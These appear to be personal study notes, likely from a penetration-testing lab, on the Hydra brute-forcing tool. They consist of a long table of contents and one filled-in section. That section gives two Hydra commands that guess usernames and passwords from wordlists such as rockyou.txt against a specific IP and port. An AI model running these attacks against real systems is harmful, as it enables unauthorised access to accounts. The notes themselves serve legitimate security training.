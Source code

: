 ## Table of Contents

  - [Username/Password Attack](#Username/Password\Attack)
        - [Examples:](#Examples:)
- [Hydra Flags](#hydra\flags)
- [Username Brute Force](#username\brute\force)
- [Hydra Cheatsheet](#hydra\cheatsheet)
  - [Guessing Passwords](#Guessing\Passwords)
  - [Guessing Usernames](#Guessing\Usernames)
  - [Brute Forcing Usernames and Passwords](#Brute\Forcing\Usernames\and\Passwords)
  - [Verbose and Debug Modes](#Verbose\and\Debug\Modes)
  - [Null/Same/Reverse Password Attempts](#Null/Same/Reverse\Password\Attempts)
  - [Saving Output to Disk](#Saving\Output\to\Disk)
  - [Resuming Brute Force Attacks](#Resuming\Brute\Force\Attacks)
  - [Generating Passwords](#Generating\Passwords)
  - [Specifying Non-Default Ports](#Specifying\Non-Default\Ports)
  - [Attacking Multiple Hosts](#Attacking\Multiple\Hosts)
  - [Using Login:Password Combo Files](#Using\Login:Password\Combo\Files)
  - [Concurrent Login Testing](#Concurrent\Login\Testing)
  - [HTTP Form Brute Forcing](#HTTP\Form\Brute\Forcing)
  - [Display Module Usage](#Display\Module\Usage)
  - [Attacking Secured Services](#Attacking\Secured\Services)
  - [Using SSL Connections](#Using\SSL\Connections)
  - [SMB Authentication](#SMB\Authentication)
  - [Redis Brute Forcing](#Redis\Brute\Forcing)
  - [SMTP Brute Forcing](#SMTP\Brute\Forcing)
  - [SNMP Brute Forcing](#SNMP\Brute\Forcing)
  - [Attacking Cisco Devices](#Attacking\Cisco\Devices)
  - [SSH Brute Forcing](#SSH\Brute\Forcing)


![[Pasted image 20240129051012.png]]
## Username/Password Attack

Requires at least 3 flags:
- Credentials
- Target Host
- Target Path


Credentials can also be separated by `usernames` and `passwords`

##### Examples:
#hydraexamples
```bash
hydra -L /opt/useful/SecLists/Usernames/Names/names.txt -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -u -f 178.35.49.134 -s 32901 http-get /
```
```bash
hydra -L /opt/useful/SecLists/Usernames/Names/names.txt -p amormio -u -f 178.35.49.134 -s 32901 http-get /
```
